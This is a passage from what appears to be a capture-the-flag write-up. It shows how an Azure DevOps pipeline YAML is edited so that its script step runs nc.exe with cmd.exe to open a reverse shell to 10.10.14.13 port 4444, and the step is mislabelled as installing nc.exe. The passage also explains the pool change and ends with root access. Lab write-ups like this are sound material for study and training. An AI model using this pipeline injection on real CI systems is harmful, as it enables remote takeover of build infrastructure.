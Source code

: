 Replace it with this:

```yaml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master

pool: 'Setup'

steps:
- script: C:\Windows\Tasks\nc.exe -e cmd.exe 10.10.14.13 4444 # install nc.exe
  displayName: 'shell'
```

The reason we need to change the Pool is because there is no pool named 'Default', but there is one called Setup. This can be enumerated in Project Settings:

<figure><img src="../../../.gitbook/assets/image (162) (1).png" alt=""><figcaption></figcaption></figure>

Once we run it, we would get a reverse shell once the command executes.

<figure><img src="../../../.gitbook/assets/image (77) (1) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
